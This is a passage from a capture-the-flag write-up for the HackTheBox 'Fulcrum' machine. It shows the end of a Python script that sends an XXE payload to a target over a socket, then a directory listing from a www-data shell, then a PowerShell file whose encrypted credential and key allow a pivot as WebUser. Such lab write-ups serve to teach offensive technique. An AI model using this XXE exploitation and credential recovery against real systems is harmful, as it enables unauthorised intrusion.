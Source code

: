 ```python

final_req = (request + xxe).replace("\n","\r\n")
final_req = final_req.encode()

send_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
send_sock.connect((TARGET_HOST, TARGET_PORT))
send_sock.send(final_req)
send_sock.close()
```

![](../../../.gitbook/assets/htb-fulcrum-image-7.png)

{% hint style="info" %}

I included a zero-click exploit script at the end!

{% endhint %}

## WebServer --> File

Surprising to see AD here.

### Powershell Creds --> WebUser Pivot

First thing I noticed was this `.ps1` file in the folder the shell spawned in:

```
www-data@fulcrum:~/uploads$ ls -la
total 24
drwxr-xr-x 2 root root 4096 Oct  5  2017 .
drwxr-xr-x 6 root root 4096 May  8  2022 ..
-rw-r--r-- 1 root root  714 Oct  4  2017 Fulcrum_Upload_to_Corp.ps1
-rw-r--r-- 1 root root  321 Oct  4  2017 home.php
-rw-r--r-- 1 root root  255 Oct  5  2017 index.php
-rw-r--r-- 1 root root  113 Oct  4  2017 upload.ph
```

Here are the contents:

```powershell
$ cat Fulcrum_Upload_to_Corp.ps1 
# TODO: Forward the PowerShell remoting port to the external interface
# Password is now encrypted \o/

$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA=' 
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
```
